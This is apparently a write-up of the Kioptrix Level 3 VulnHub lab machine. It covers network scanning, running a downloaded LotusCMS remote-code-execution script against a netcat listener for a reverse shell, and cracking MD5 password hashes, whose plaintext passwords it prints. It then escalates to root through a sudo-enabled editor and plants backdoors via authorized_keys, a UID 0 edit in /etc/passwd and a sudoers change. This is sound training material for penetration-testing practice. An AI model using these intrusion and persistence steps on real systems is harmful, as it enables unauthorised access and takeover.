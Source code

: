 # GETTING STARTED

To download Kioptrix 3, click [here](https://www.vulnhub.com/entry/kioptrix-level-12-3,24/)

**DISCLAIMER**
> This writeup documents the steps that successfully led to pwnage of the machine. It does not include the dead-end steps encountered during the process (which were numerous). I recommend attempting to solve the lab independently. If you find yourself stuck on a phase for more than a day, you may refer to the writeups for guidance. Please note that this is just one approach to capturing all the flags, and there are alternative methods to solve the machine.

# RECONNAISSANCE

I start by using **nmap** to scan the network and identify the target.

```bash

┌──(root㉿kali)-[~/ctf/kioptrix-3]
└─# nmap -sn 192.168.1.0/24          
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-09 23:43 EDT
Nmap scan report for RTK_GW (192.168.1.1)
Host is up (0.052s latency).
Nmap scan report for 192.168.1.8
Host is up (0.00017s latency).
MAC Address: 00:0C:29:7C:23:2A (VMware)
Nmap scan report for kali (192.168.1.12)
Host is up.
Nmap done: 256 IP addresses (3 hosts up) scanned in 7.15 seconds
```

The target IP is _192.168.1.8_. Next, I perform an aggressive **nmap** scan to discover the open ports and services running on the target.

![[IMAGES/1.png]]

# GETTING INITIAL ACCESS

Upon receiving the scan results, I opened a web browser to access the target on port 80

![[IMAGES/2.png]]

A redirection link on this page took me to another page that appeared incomplete.

![[IMAGES/3.png]]

I clicked on _Inspect Element_, navigated to the _Network_ tab, and refreshed the page to view the received packets.

![[IMAGES/4.png]]

The issue is that my PC cannot recognize this domain. So, I modify the `/etc/hosts` file to map the domain _kioptrix3.com_ to the target IP.

![[IMAGES/5.png]]

I refresh the page and get proper results this time.

![[IMAGES/6.png]]

I inspected the page but didn't find anything special, so I returned to the main page. Here, I noticed a login panel that revealed the CMS being used.

Hence I searched for exploits on _Lotus CMS_ using **Google** and found several options. I then downloaded an exploit available on GitHub.

![[IMAGES/7.png]]

I started a listener using netcat and executed the bash script.

```bash

rlwrap nc -lnvp 4444
```

```shell

./lotsuRCE.sh 192.168.1.8
```

![[IMAGES/8.png]]

![[IMAGES/9.png]]

With this, I gained a reverse shell of the system.

To streamline my activities, I exported my terminal and spawned a *pty* shell for ease of use.

```bash

export TERM=xterm
python -c 'import pty; pty.spawn("/bin/bash")'
```

# GETTING USER ACCESS

I navigated to the *home* directory and discovered two additional users.

![[IMAGES/10.png]]

The *loneferret* user had a file containing an intriguing message.

![[IMAGES/11.png]]

Executing this command would require a password, so I examined the running services and identified MySQL.

![[IMAGES/12.png]]

It's in **safe** mode, so I would need another set of credentials to access it. Therefore, I searched for anything interesting in my own directory.

I found a set of credentials in `home/www/kioptrix3/gconfig.php`

![[IMAGES/13.png]]

So I log into mysql using these credentials.

![[IMAGES/14.png]]

I found the md5 hashed password of both *dreg* and *loneferret* in the `gallery` database.

![[IMAGES/15.png]]

I quickly head to [crackstation](https://crackstation.net/) to crack these

![[IMAGES/16.png]]

| username   | password |
| ---------- | -------- |
| dreg       | Mast3r   |
| loneferret | starwars |
I log in as *loneferret* using the password that I cracked using **ssh**.

![[IMAGES/17.png]]

# PRIVILEGE ESCALATION

I checked the command history of this user.

![[IMAGES/18.png]]

Hence I execute the command `sudo ht`

![[IMAGES/19.png]]

I pressed **F3** and was presented with an option to open any file. Since I was running the software using sudo privileges, I accessed and captured the flag from `/root/Congrats.txt`.

![[IMAGES/20.png]]

I'm crafting a backdoor to gain root access to the target system.

### USING SSH KEYS
I generated a set of SSH keys in my terminal.

```bash

ssh-keygen -t rsa -b 4096 -C "keyfork3"
```

Next, I copied the public key stored in **id_rsa.pub**.

![[IMAGES/21.png]]

Afterward, I pasted this into a new text file within the root directory on the target system.

```markdown

ALT+F -> new -> text -> paste the ssh key -> save as -> /root/.ssh/authorized_keys
```

![[IMAGES/22.png]]

Now I can log in as *root*.
### USING THE /ETC/PASSWD FILE
I updated the **id** value in the `/etc/passwd` file of *loneferret* to **0**.

![[IMAGES/23.png]]

By reconnecting as *loneferret*, I gained root access.
### USING THE SUDOERS FILE
I can modify the permissions of *loneferret* in the **sudoers** file located in `/etc/sudoers`.

![[IMAGES/24.png]]

Now, I can execute *root* commands without encountering any restrictions.

![[IMAGES/25.png]]
# CLOSURE

Here's a comprehensive summary of my successful penetration of the **Kioptrix L3** system:
- I exploited the CMS to gain initial access.
- Discovered user credentials within the `gconfig.php` file.
- Utilized **ht** software with **sudo** privileges to locate the flag in the root directory.
- Implemented three distinct methods to establish a backdoor.

That concludes my walkthrough. Until next time! :)

![[IMAGES/26.png]]

------------------------------------------------------------------------------------